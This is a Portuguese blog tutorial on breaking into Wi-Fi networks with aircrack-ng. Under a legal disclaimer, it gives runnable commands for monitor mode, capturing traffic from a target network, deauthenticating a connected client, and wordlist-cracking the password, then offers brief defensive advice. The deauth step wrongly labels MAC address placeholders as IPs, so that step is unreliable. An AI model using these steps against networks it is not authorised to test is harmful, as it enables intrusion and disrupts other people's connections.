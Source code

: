 ```yaml
---
title:  "Invasão de Redes Wireless com Aircrack-NG"
categories: seguranca
tags: aircrack-ng wifi linux
---
```


![{{ post.title }}]({{ site.url }}/assets/img_posts/aircrack-ng.png)

### ATENÇÃO!

Esse tutorial deve ser usado apenas para fins educativos em uma rede com devida autorização do proprietário.

Invadir dispositivo alheio, conectado ou não a rede de computadores, mediante violação de segurança com o fim de obter informações sem autorização é crime. No Brasil, pode acarretar em 1 ano de reclusão e multa.

Aproveite este conhecimento para progredir de maneira justa e sem prejudicar outras pessoas.

## Requerimentos

Para a realização deste tutorial será necessário um computador com o Sistema Operacional Debian ou variantes e que a máquina possua placa de rede wireless ou adaptador wi-fi, e acesso _root_.

Também é necessário que você possua uma _wordlist_ disponível em seu ambiente.

### Informação

Wordlists são arquivos que possuem várias palavras frequentemente utilizadas.

Você pode escrever o seu próprio arquivo ou encontrar exemplos através de uma simples busca no Google.

Precisará também de um ponto de acesso wireless, no qual você não esteja conectado com a interface de teste.

Para ter certeza sobre a existência de interfaces wi-fi, faça a verificação:

```sh
iwconfig
```

Se o dispositivo estiver conectado, mas não for listado; inicie a interface:

```sh
ifconfig wlan0 up
```

Veja as redes que estão ao seu alcance:

```sh
iwlist wlan0 scanning
```

Anote o Mac Adress e o Canal da rede alvo, pois precisará deles na sequência.

## Instalação

Para monitorar e capturar pacotes de um cliente da rede, precisaremos do **Aircrack-ng**:

```sh
sudo apt-get update && sudo apt-get install aircrack-ng
```

## Iniciando o Monitoramento

Estando com o aircrack-ng instalado, podemos começar:

Matando processos que podem causar incompatibilidades

```sh
airmon-ng check kill
```

Iniciando o monitoramento

```sh
airmon-ng start wlan0
```

## Listando Clientes

Pegue os dados do seu alvo e insira-os nas opções entre chaves (apague as chaves depois), abaixo:

```sh
airodump-ng mon0 --bssid {MAC_ADDRESS} --channel {CHANNEL} --write wifi.test
```

Depois disso, o scanner lhe mostrará uma lista com todas as Wokstations (clientes) que estão conectados na rede.

## Capturando Dados

Abra um novo terminal, escolha uma workstation ativa e capture os pacotes dela (ela irá cair durante esse processo):

```sh
aireplay-ng -0 100 -a {GATEWAY IP} -c {WORKSTATION IP} mon0 --ignore-negative-one
```

## Descobrindo a Senha

Através dos dados capturados, tente descobrir a senha:

```sh
aircrack-ng wifi.test-01.cap -w wordlist.txt
```

## Como impedir esse tipo de invasão?

Sempre utilize senhas complexas combinando caracteres especiais, como **!@#$%¨&#038;*()_+§**, e se possível configure como oculto o SSID da rede (embora o Aircrack-ng detectá-la) para que ela não seja vista como um possível alvo de crackers.

## Atualização

Use **wifite** e poupe seu tempo!
